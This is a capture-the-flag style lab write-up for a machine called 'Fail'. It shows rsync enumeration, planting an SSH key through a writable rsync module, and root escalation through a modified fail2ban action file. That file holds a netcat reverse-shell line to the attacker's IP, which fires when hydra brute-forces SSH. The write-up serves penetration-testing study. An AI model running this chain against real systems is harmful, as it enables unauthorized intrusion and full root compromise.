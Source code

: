 # Fail

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:08 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

Rsync was the only thing available.

### Rsync Enum --> SSH

Hacktricks has a whole page for RSync we can follow:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}

We can first do further enumeration on the modules available:

```
$ nmap -sV --script "rsync-list-modules" -p 873 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:09 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

`fox` might be the user present on the machine. We can list the files present:

```
$ rsync -av --list-only rsync://fox@192.168.243.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile
```

What we do is create a new `.ssh` directory and place our public key within it:

```bash
mkdir .ssh
chmod 700 .ssh
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

Then, transfer it to the machine:

```
$ rsync -av .ssh rsync://fox@192.168.243.126/fox
sending incremental file list
.ssh/
.ssh/authorized_keys

sent 534 bytes  received 67 bytes  240.40 bytes/sec
total size is 391  speedup is 0.65
```

Then, we can `ssh` in:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Fail2ban --> Root

The user is able to edit the `fail2ban` configuration files to execute commands as `root` since `fox` is part of that group.&#x20;

We just need to create a malicious `iptables-multiport.conf` file like this:

```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = nc 192.168.45.231 80 -e /bin/bash
# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]

```

Afterwards, replace the actual file with our malicious one, where the `actionban` has been edited.&#x20;

```
fox@fail:/etc/fail2ban/action.d$ rm iptables-multiport.conf
fox@fail:/etc/fail2ban/action.d$ wget 192.168.45.231:21/iptables-multiport.conf
--2023-07-17 09:23:58--  http://192.168.45.231:21/iptables-multiport.conf
Connecting to 192.168.45.231:21... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1401 (1.4K) [application/octet-stream]
Saving to: ‘iptables-multiport.conf’

iptables-multiport.conf 100%[============================>]   1.37K  --.-KB/s    in 0s      

2023-07-17 09:23:59 (183 MB/s) - ‘iptables-multiport.conf’ saved [1401/1401]
```

To trigger it, just generate a lot of `ssh` tries with `hydra`:

```
$ hydra -l fox -P /usr/share/wordlists/rockyou.txt 192.168.243.126 ssh
```

We would then get a reverse shell back as `root`:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>
